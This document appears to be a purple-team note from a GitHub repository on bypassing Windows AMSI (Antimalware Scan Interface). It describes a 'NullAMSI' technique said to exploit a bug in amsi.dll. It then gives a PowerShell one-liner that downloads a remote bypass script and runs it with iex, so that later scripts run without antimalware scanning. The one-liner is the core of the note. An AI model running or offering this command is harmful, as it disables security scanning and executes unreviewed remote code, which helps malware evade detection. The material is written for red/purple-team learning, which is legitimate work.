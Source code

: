 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Methods

### NullAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NullAMSI.ps1](https://github.com/papcaii/PurpleTeam-Note/blob/main/Tactics/defense-evasion/AMSI-BYPASS/Payloads/NullAMSI/Invoke-NullAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/papcaii/PurpleTeam-Note/refs/heads/main/Tactics/defense-evasion/AMSI-BYPASS/Payloads/NullAMSI/Invoke-NullAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI
